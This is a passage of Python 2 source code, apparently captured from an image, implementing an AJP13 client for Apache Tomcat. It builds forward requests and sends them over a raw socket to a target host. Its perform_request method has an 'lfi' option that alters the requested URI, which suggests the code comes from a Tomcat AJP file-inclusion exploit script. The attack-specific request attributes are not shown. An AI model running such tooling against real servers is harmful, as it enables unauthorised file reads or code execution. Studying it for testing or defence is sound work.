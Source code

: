        def parse_send_body_chunk(self, stream):
            self.data_length, = unpack(stream, ">H")
            self.data = stream.read(self.data_length+1)

        def parse_end_response(self, stream):
            self.reuse, = unpack(stream, "b")

        def parse_get_body_chunk(self, stream):
            rlen, = unpack(stream, ">H")
            return rlen

        @staticmethod
        def receive(stream):
            r = AjpResponse()
            r.parse(stream)
            return r


    def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):
        fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)
        fr.method = method
        fr.protocol = "HTTP/1.1"
        fr.req_uri = req_uri
        fr.remote_addr = target_host
        fr.remote_host = None
        fr.server_name = target_host
        fr.server_port = 80
        fr.request_headers = {
            'SC_REQ_ACCEPT': 'text/html',
            'SC_REQ_CONNECTION': 'keep-alive',
            'SC_REQ_CONTENT_LENGTH': '0',
            'SC_REQ_HOST': target_host,
            'SC_REQ_USER_AGENT': 'Mozilla',
            'Accept-Encoding': 'gzip, deflate, sdch',
            'Accept-Language': 'en-US,en;q=0.5',
            'Upgrade-Insecure-Requests': '1',
            'Cache-Control': 'max-age=0'
        }
        fr.is_ssl = False
        fr.attributes = []
        return fr


    class Tomcat(object):
        def __init__(self, target_host, target_port):
            self.target_host = target_host
            self.target_port = target_port

            self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            self.socket.connect((target_host, target_port))
            self.stream = self.socket.makefile("rb", bufsize=0)

        def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[], lfi=False):
            if lfi:
                self.req_uri = req_uri + '.jspx'
            else:
                self.req_uri = req_uri
            self.forward_request = prepare_ajp_forward_request(
                self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
            print("Getting resource at ajp13://%s:%d%s" %
                  (self.target_host, self.target_port, req_uri))
            if user is not None and password is not None:
                self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + (
                    "%s:%s" % (user, password)).encode('base64').replace('\n', '')
            for h in headers:
                self.forward_request.request_headers[h] = headers[h]